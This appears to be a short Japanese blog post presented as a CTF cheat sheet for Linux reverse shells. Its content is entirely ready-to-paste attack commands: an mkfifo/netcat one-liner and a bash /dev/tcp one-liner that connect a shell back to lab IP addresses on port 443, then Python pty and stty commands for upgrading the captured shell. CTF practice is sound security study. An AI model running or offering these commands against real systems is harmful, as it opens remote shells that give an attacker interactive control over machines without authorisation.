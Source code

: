 ```yaml
---
layout: post
title: "linux_reverse_shell"
published : true
tags: CTF Common cheatsheet linux "reverse shell"
---
```

## リバースシェル
コマンド1
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 443 >/tmp/f
```
コマンド2
```sh
bash -i >& /dev/tcp/10.10.14.14/443 0>&1
```
## シェルのアップグレード(script)
```sh
script /dev/null -c bash
```
## シェルのアップグレード(python)
```sh
python -c 'import pty;pty.spawn("/bin/bash")'
```
## シェルをさらにアップグレード
```sh
(Ctrl + z)
stty raw -echo ; fg
```
